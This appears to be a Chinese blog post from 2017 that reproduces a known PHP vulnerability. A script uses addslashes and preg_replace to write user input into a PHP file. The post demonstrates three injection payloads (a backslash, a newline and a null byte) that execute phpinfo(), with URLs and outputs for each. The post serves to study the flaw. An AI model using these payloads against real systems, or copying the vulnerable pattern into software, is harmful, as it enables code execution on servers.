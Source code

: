 ```yaml
---
layout: post

title: "一个PHP正则相关的“经典漏洞”"
date: 2017-02-28 16:29:56 +0800

categories: php
tags: [php, 正则表达式, 网络安全]
---
```

1. 文件准备
    example.php 文件
    ```php
    <?php
    $str = addslashes($_GET['option']);
    $file = file_get_contents('example_test.php');
    $file = preg_replace('|\$option=\'.*\';|',"\$option='$str';", $file);
    var_dump($str, $file);
    file_put_contents('example_test.php', $file);
    ```
    ![example.php]({{ site.url }}/assets/images/201702/28-01.png)

    example_test.php 文件
    ```php
    <?php
    $option='hello';
    echo $option;
    ```
    ![example_test.php]({{ site.url }}/assets/images/201702/28-02.png)

**注入方法**

方法一: 利用反斜杠, 输入`\';phpinfo();//`

`http://example.com/example.php?option=\%27;phpinfo();//`

```php
string(17) "\\\';phpinfo();//"
string(50) "<?php

$option='\\';phpinfo();//';

echo $option;
"
```

方法二: 利用正则, 输入`aaa';phpinfo();%0a//`

`http://example.com/example.php?option=aaa%27;phpinfo();%0a//`

```php
string(19) "aaa\';phpinfo();
//"
string(53) "<?php

$option='aaa\';phpinfo();
//';

echo $option;
"
```
方法三: 利用 `%00`

1. 输入`;phpinfo();`, `http://example.com/example.php?option=;phpinfo();`

    ```php
    string(11) ";phpinfo();"
    string(45) "<?php

    $option=';phpinfo();';

    echo $option;
    "
    ```
1. 再次输入`%00`, `http://example.com/example.php?option=%00`

    ```php
    string(2) "\0"
    string(56) "<?php

    $option='$option=';phpinfo();';';

    echo $option;
    "
    ```

> 本文为验证,`原文`有解析: [https://www.cdxy.me/?p=756](https://www.cdxy.me/?p=756)

---
更多阅读
- [一个PHP正则相关的“经典漏洞”](https://www.cdxy.me/?p=756)
